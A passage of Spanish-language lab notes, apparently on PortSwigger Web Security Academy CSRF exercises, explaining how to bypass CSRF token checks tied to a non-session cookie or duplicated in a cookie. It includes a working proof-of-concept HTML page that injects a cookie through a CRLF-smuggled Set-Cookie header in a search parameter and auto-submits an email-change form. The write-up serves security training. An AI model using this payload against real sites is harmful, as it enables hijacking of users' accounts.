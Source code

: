 Si este ultimo se cumple para explotar la vulnerabilidad debemos inyectar la cookie en la sesión del usuario en este ejemplo a través del parámetro de búsqueda de la web ya que se ve reflejado en la respuesta.

En esta PoC se utiliza el csrf y csrfkey del atacante para cambiar la del usuario

```bash
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://Url-Vulnerable/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="antu97@test&#46;com" />
      <input type="hidden" name="csrf" value="CSRF-ATACANTE" />
    </form>
     <img src="https://0acb008503ccb1858109de59003c0073.web-security-academy.net?search=test%0d%0aSet-Cookie:%20csrfKey=CSRFKEY-ATACANTE%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>

```

Laboratorio [aquí](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie).

### CSRF token duplicado en la cookie.

Se puede dar el caso que el token aparezca duplicado en la cookie y en el parámetro de la petición, cuando la petición se envía, la validación que realiza es que tanto el token de la petición y la cookie sean el mismo, para testear esta vulnerabilidad se debe cambiar el valor del token y la cookie por otro pero que sea el mismo y realizar la petición, si se realiza con éxito es explotable.

Hay que encontrar una vía de inyectar la cookie en la sesión del cliente, en este ejemplo se inyecta a través del parámetro de búsqueda.

![imagenes/image.png](image.png)
